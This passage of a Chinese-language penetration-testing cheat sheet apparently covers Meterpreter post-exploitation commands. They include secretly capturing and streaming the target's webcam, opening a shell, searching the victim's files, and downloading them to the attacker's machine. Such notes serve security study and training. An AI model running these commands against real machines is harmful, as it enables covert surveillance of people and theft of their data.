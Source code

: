 打开摄像头，拍一张照片，保存到/root下：

```
webcam_snap
```

摄像头开启直播模式，.html保存到/root下，浏览器打开即可：

```
webcam_stream
```

进入目标机Shell，退出exit：

```
shell
```

## 文件系统

查看处于目标机哪个目录：

```
pwd #或getwd
```

查看本地处于哪个目录：

```
getlwd
```

列出当前目录所有文件：

```
ls
```

切换目录：

```
cd c:\
```

搜索C盘中以.txt为扩展名的文件，-f用于指定搜索文件，-d指定哪个目录下：

```
search -f *.txt -d c:\
```

下载目标机C盘test.txt到攻击机root下：

```
download c:\test.txt /root
```

上传攻击机root下test.txt到目标机C盘下：

```
upload /root/test.txt c:\
```

## 权限提升
